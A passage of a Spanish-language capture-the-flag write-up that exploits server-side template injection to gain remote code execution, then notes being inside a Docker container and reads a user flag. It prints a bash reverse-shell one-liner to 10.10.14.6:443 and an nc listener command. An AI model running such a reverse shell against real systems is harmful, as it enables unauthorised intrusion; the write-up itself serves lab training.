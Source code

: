 ![image](../zimages/Pasted_image_20241031163534.png)

Como tiene SSTI, vamos a buscar en github.com/swisskyrepo/PayloadsAllTheThings
para ver la inyección que tenemos que usar para tener un RCE (Remote Code Execution): 

![image](../zimages/Pasted_image_20241031171124.png)

Cambiamos el comando "id" por `bash -c "exec bash -i &>/dev/tcp/10.10.14.6/443 <&1"` y, después de ponernos en escucha con `nc -nlvp 443`, le damos a guardar cambios:

![image](../zimages/Pasted_image_20241031171436.png)

## Escapada del contenedor docker

Ya somos root, pero no acaba aquí la cosa ya que si hacemos un `hostname -I`, vemos que la ip no concuerda con la de la máquina, lo que quiere decir que estamos ante un contenedor de docker:

![image](../zimages/Pasted_image_20241031172810.png)

No obstante, si vamos a /home/, vemos que hay un usuario llamado "augustus", si nos metemos en su perfil, podremos leer la flag de user `cbd7227d20aca2ede44f26b2cc2b9fef`:

![image](../zimages/Pasted_image_20241031173248.png)
